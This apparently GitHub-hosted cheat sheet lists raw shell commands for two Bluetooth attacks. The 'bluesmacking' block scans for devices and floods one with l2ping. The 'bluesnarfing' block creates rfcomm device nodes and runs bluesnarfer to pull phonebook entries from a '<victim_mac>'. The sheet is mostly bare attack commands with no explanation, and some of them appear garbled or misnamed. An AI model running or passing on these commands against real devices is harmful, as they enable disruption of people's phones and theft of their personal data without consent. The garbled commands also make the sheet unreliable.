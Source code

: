 # bluetooth

## bluesmacking

```
hcitool -a
hcitool hci0 up
hcitool scan
hcitool inq
sdptool browser <MAC_ADDRESS>
l2ping <mac_address>
```

# bluesnarfing

```
mkdir -p /dev/bluetooth/rfcomm
mknod -m 666 /dev/bluetooth/rfcomm/0 c 216 0
mknod --mode=666 /dev/rfcomm0 c 216 0
hciconfig -i hci0 up
hciconfig hci0
l2ping <victim_mac>
sdptool browser --tree -l2cap <mac>
bluesnarfer -r 1-100 -C 7 -b <mac>
```

